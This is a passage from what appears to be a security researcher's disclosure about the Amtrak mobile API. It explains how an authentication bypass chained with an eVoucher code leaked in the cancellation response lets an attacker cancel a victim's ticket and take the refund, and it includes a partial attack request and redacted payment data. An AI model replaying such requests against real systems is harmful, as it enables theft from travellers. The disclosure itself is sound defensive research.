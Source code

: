 ~~~
"zipCode": "[REDACTED]"
},
"amount": 17.0,
"cavv": null,
"comment": null,
"eciFlag": null,
"expirationDate": "[REDACTED]",
"name": "Priyank [REDACTED]",
"number": "xxxxxxxxxxxx[REDACTED]",
"securityCode": null,
"sortOrder": 18,
"subtitle": "Priyank [REDACTED]",
"title": "Mastercard ****[REDACTED]",
"type": {
"code": "IK",
"name": "Mastercard",
…omitted for brevity…
}
}
],
…omitted for brevity…
"totalFare": 17.0

~~~


### Sensitive Information Disclosure

The ticket cancellation API offered two types of refund methods: an eVoucher or a refund to the original form of payment. The eVoucher was emailed to the email address on file for a user’s account. However, the API also returned the voucher information in the API response.

Thus, an attacker could chain the previous authentication bypass vulnerability with this information disclosure vulnerability to effectively “steal” funds from the victim. Successful exploitation of the Authentication Bypass vulnerability gave access to the customer’s PNR details. Using these details, a request to refund to an eVoucher was made, and since the response contained the eVoucher code, an attacker could legitimately use those funds on `Amtrak.com`. Although the web application attempted to verify ownership of the eVoucher by requiring the user to enter some related information, this attack could not be thwarted because the attacker would already have that information.

The following request shows the cancellation request that required the pnrNumber and amount details, all of which was available from the previous responses. An attacker could cancel a victim’s ticket and harvest the eVoucher code.

**Request**

~~~
POST /MobileApps/CancelCancelReservation HTTP/1.1
Host: rider.amtrak.com
appType: IOS

…omitted for brevity…
{
"pnrNumber": "24281A",
"versionNumber": "3.1.7",
"appType": "IOS",
"paymentSummary": {
"refund": {
"refundAmount": "17.00",
"refundWithoutFee": "17.00"
},
"availableTicketAmount": "17.00",
"unliftedTicketAmount": "17.00",
"excessTicketAmount": "17.00",
"evoucher": {
"totaleVoucher": "17.00",
~~~